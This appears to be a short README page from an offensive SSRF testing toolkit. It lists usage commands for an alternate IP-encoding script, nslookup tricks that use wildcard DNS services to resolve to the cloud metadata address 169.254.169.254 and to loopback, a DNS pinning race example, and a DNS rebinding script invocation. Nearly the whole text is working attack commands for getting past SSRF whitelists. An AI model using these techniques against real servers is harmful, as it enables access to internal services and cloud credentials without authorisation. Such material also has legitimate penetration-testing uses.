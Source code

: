 ***

### ip.py - Alternate IP encoding tool useful for SSRF Testing

python ip.py IP PORT WhiteListedDomain EXPORT(optional)

python ip.py 169.254.169.254 80 www.google.com

python ip.py 169.254.169.254 80 www.google.com export

***

### DNS pinning

nslookup ssrf-169.254.169.254.localdomain.pw

nslookup ssrf-cloud.localdomain.pw

http://xip.io/

nslookup 169.254.169.254.xip.io

nslookup 1ynrnhl.xip.io

nslookup www.owasp.org.1ynrnhl.xip.io

nslookup 127.127.127.127.xip.io

https://nip.io/

nslookup 169.254.169.254.nip.io

nslookup app-169-254-169-254.nip.io

nslookup owasp.org.169.254.169.254.nip.io

nslookup customer2-app-169-254-169-254.nip.io

nslookup 127.127.127.127.nip.io

***

### DNS pinning race condition

nslookup ssrf-race-169.254.169.254.localdomain.pw

***

### DNS Rebinding

pip install twised

python3 dns.py WhitelistedIP InternalIP ServerIP Port Domain

python3 dns.py 216.58.214.206 169.254.169.254 78.47.24.216 53 localdomains.pw

http://webcache.googleusercontent.com/search?q=cache:http://www.611eternity.com/DNSRebinding%E6%8A%80%E6%9C%AF%E5%AD%A6%E4%B9%A0/

DNS Rebinding Exploitation Framework - https://github.com/mwrlabs/dref
